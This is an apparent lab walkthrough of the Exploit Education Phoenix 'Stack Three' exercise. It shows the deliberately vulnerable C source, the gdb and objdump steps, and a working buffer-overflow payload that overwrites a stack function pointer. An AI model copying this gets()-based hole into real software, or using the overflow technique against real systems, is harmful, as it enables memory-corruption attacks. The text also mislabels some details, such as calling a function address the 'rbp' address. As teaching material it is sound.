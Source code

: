 ```yaml
---
description: 07/17/2023
---
```


# 3⃣ Stack Three

> Stack Three looks at overwriting function pointers stored on the stack.

#### Hints

* You can use `gdb` and `objdump` to determine where the `complete_level()` <mark style="color:yellow;">function</mark> <mark style="color:yellow;">is in memory</mark>.

## Source Code

```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

Our main goal is to find out where the `changeme()` variable is.

Once we locate it in memory, we need to change the value to: `0x0d0a090a`.

* `0x0d0a090a`
* `\x0a\x09\x0a\x0d`

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

## GDB

```
gdb stack-three
```

Let's check out the disassembly for the `main()` function:

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Let's check out the disassembly for the `complete_level()` function:

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

We can see that `0x000000000040069d` is the memory address for the stack base pointer (`rbp`) for our function.

Let's try and mess with the program a bit more and send it a long string:

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Interesting, we ended up receiving a segmentation fault, meaning our program attempted to write/access out of bounds memory and in return forcefully crashed our program to protect our system.

We ended up getting the message calling function pointer `0x585858`... and was curious to see what that looked like in the ASCII table:

Hex `58` is equivalent to char `X`. We can see this by doing `man ascii`:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Exploitation

So, if we go back and look at our `complete_level()` function, we need to get the program to call this so we can move on to the next level.

I also wanted to diversify with the tooling a little and decided to check out the same information in objdump as well. We can manually go through all of the disassembly without grepping for our function that we are looking for, but who wants to do that?

```
objdump -d stack-three | grep complete_level  
000000000040069d <complete_level>:
```

Take the following snippet of `main()`:

```c
int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
```

This is interesting ebcause we see our function pointer (`fp`) being set to `NULL`. `gets()` will take our input and store it within the 64-byte buffer (`buffer[64]`). And lastly in our `main()` function `locals.fp()` will be called to call whatever is stored in our function pointer (`fp`).

With that said, let's take the function pointer's address and convert it to little-endian and overwrite the buffer:

```
python -c 'print "X"*64 + "\x9d\x06\x40"' | ./stack-three
```

With our function pointer's address: `0x000000000040069d`, we take that and convert it to little-endian: `\x9d\x06\x40`, overwrite our 64-byte buffer that's specified within our structure, and send it to the binary, we're able to overwrite our function pointer!

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>
